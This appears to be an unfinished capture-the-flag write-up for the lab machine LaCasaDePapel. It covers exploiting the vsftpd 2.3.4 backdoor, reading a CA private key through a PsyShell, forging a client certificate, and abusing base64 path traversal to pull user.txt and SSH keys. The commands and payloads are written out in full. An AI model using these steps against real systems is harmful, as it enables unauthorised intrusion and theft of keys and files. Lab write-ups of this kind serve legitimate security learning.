

# User

After an nmap scan it can be seen that the server is running vsftpd 2.3.4.
This version has a ```:)``` backdoor.

Msfconsole:
```
exploit/unix/ftp/vsftpd_234_backdoor
```

This opens the port ```6200``` to give us:

```
Psy Shell v0.9.9 (PHP 7.2.10 â cli) by Justin Hileman
```

This seems like a debugging cli for PHP

Running ```ls``` on the cli gives us a listing of local variables. It returns:

```
Variables: $tokyo
```

Then running ```show $tokyo``` gives a code listing

```
  > 2| class Tokyo {
    3| 	private function sign($caCert,$userCsr) {
    4| 		$caKey = file_get_contents('/home/nairobi/ca.key');
    5| 		$userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6| 		openssl_x509_export($userCert, $userCertOut);
    7| 		return $userCertOut;
    8| 	}
    9| }
```
An important bit off info is the file path ```/home/nairobi/ca.key```

Running private PHP methods:

```
$x = new Tokyo();
$reflector = new ReflectionObject($x);
$method = $reflector->getMethod('sign');
$method->setAccessible(true);

```

This will let us sign and create a user cert

I navigated to the https endpoint and downloaded the CA cert for use in the algo

We also need to make a User CSR **(Certificate Signing Request)**

```
openssl req -nodes -newkey rsa:2048 -keyout user.key -out user.csr -subj "O=La Casa De Papel/CN=lacasadepapel.htb"
```

By running this command:
```
echo $method->invoke($x, "-----BEGIN CERTIFICATE-----
MIIC6jCCAdICCQDISiE8M6B29jANBgkqhkiG9w0BAQsFADA3MRowGAYDVQQDDBFs
YWNhc2FkZXBhcGVsLmh0YjEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDAeFw0x
OTAxMjcwODM1MzBaFw0yOTAxMjQwODM1MzBaMDcxGjAYBgNVBAMMEWxhY2FzYWRl
cGFwZWwuaHRiMRkwFwYDVQQKDBBMYSBDYXNhIERlIFBhcGVsMIIBIjANBgkqhkiG
9w0BAQEFAAOCAQ8AMIIBCgKCAQEAz3M6VN7OD5sHW+zCbIv/5vJpuaxJF3A5q2rV
QJNqU1sFsbnaPxRbFgAtc8hVeMNii2nCFO8PGGs9P9pvoy8e8DR9ksBQYyXqOZZ8
/rsdxwfjYVgv+a3UbJNO4e9Sd3b8GL+4XIzzSi3EZbl7dlsOhl4+KB4cM4hNhE5B
4K8UKe4wfKS/ekgyCRTRENVqqd3izZzz232yyzFvDGEOFJVzmhlHVypqsfS9rKUV
ESPHczaEQld3kupVrt/mBqwuKe99sluQzORqO1xMqbNgb55ZD66vQBSkN2PwBeiR
PBRNXfnWla3Gkabukpu9xR9o+l7ut13PXdQ/fPflLDwnu5wMZwIDAQABMA0GCSqG
SIb3DQEBCwUAA4IBAQCuo8yzORz4pby9tF1CK/4cZKDYcGT/wpa1v6lmD5CPuS+C
hXXBjK0gPRAPhpF95DO7ilyJbfIc2xIRh1cgX6L0ui/SyxaKHgmEE8ewQea/eKu6
vmgh3JkChYqvVwk7HRWaSaFzOiWMKUU8mB/7L95+mNU7DVVUYB9vaPSqxqfX6ywx
BoJEm7yf7QlJTH3FSzfew1pgMyPxx0cAb5ctjQTLbUj1rcE9PgcSki/j9WyJltkI
EqSngyuJEu3qYGoM0O5gtX13jszgJP+dA3vZ1wqFjKlWs2l89pb/hwRR2raqDwli
MgnURkjwvR1kalXCvx9cST6nCkxF2TxlmRpyNXy4
-----END CERTIFICATE-----
", "-----BEGIN CERTIFICATE REQUEST-----
MIICfDCCAWQCAQAwNzEZMBcGA1UECgwQTGEgQ2FzYSBEZSBQYXBlbDEaMBgGA1UE
AwwRbGFjYXNhZGVwYXBlbC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
AoIBAQCmUq+K7RExpveU8RRcxyzhHRDAhhub7cjBULLU+1frmHPEBxleJ5loqORE
X1mGQdIlN2sksYFcvDNW2n7JExhSwKXw21bhyQdGQYg+7I1Y43IsEOZSf/xlOJRF
6/FnHkXHRZTtJm30HJ6OpApTeVHjrowCganjIYAgotdG3C1gUYU9seu6tNeOil3A
9ta99u3JYRWi884247SgupsurZ2TVheZ6OxoYBaEgFVv4trW6QgB8VJsEOg937Tu
Tb+dTjsZa5EwjuzllUjRTk2veUJE0J+BWdFc9O5oBPhoF+Px8+3CTsKWBiKfRtyG
uq8NTL4MfnjqBEdXvwc+kUpOi0x7AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEA
dxTb62Dn0aBhksH/oJpoNomQlqj7hEsQestu6Za5FREyJJu6AiuYzGnLI89ZvlEv
YMtvTErU60NIvVXZZcrNopXyuiceM8HPvEbIQFaOhh/iz62fNjAddOdIItjgAK5o
EmiyDwgABBAFDHzP5hLZrhQ0YcrkZ0LwuVdsUgYjWo83HJkUtX64nMq+Yhdmvq2n
LYCgyChmMmH66aEYAHWOZPONCTIq4tqmWGr9SPPTAt683OGqwWoxB0oHKkFtR6vu
KfL6K9/P96nYpP4beXMkWZDduGO8V4ELSgAKWoGRtOBf7732H1oUvYeJgIbEEXzt
6POSWQ380THZwsyRm6YyLg==
-----END CERTIFICATE REQUEST-----");
```

It provides us with a signed certificate!

Running:
```
$caKey = file_get_contents('/home/nairobi/ca.key');
```
Will give us the ca.key used to signed the certificate. This will let us turn the signed cert into a pk12 file


Chagning into a pk12 file:
```
openssl pkcs12 -export -inkey ca.key -in signed.crt -out signed.p12
```

Using this cert brings us to a ```PRIVATE AREA``` where we can request files with this URL:

```
https://10.10.10.131/?path=X
```

From error messages we seem to be in:

```
/home/berlin/downloads/home/
```

When downloading files we're directed to a url like so:
```
https://10.10.10.131/file/Li4vZG93bmxvYWRzL1NFQVNPTi0yLzAxLmF2aQ==
```

This is a base64 encoded file path. In theory this should let us encode our own

Below is ```../user.txt``` url:

```
../user.txt
Li4vdXNlci50eHQ=
```

This gives us the user.txt. We can repeat this process with the .ssh keys

Note: ```-n``` option is needed with ```echo``` to make sure there is not trailing newline

Extracting the ssh keys for ```berlin``` doesn't let us login with ssh. This is due to the keys not being in the ```authorized_keys``` file

We can write in ```dali``` home using:

```
$myfile = fopen("/home/dali/server.js", "w") 
```

This can be used to add the key to the ```authorized_keys```. However, when connecting via ssh the shell is just the PsyShell instance

Is there a way to escape?

foreach($f as $filename){
    echo $filename;
    echo file_get_contents($filename);
}

$fileList = glob('/home/dali/.config/*');
